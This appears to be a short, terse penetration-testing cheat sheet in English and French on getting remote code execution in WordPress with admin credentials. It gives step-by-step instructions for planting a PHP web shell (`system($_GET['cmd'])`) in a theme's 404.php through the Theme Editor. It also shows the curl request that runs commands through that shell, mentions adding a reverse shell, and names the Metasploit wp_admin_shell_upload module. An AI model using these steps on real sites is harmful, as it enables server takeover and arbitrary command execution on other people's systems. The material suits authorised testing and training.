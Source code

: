 Remote Code Execution (RCE) via the Theme Editor

- Log in to WordPress with the administrator credentials

- Go to `Appearance -> Theme Editor`

- Select an inactive theme in order to avoid corrupting the main theme. (`Twenty Seventeen`)

- Next, choose a non-critical file such as `404.php` to modify and add a web shell. such as `system($_GET['cmd']);`

```sh
curl -s -X GET http://target.com/wordpress/wp-content/themes/twentyseventeen/404.php?cmd=id
```

---

Inserer un reverse shell dans le fichier `404.php` 

```h
http://target.com/wordpress/wp-admin/theme-editor.php?file=404.php&theme=twentyseventeen&scrollto=2148
```

Executer le reverse-shell

```sh
http://target.com/wordpress/wp-content/themes/twentyseventeen/404.php
```



## Metaploit

```sh
use exploit/unix/webapp/wp_admin_shell_upload
```
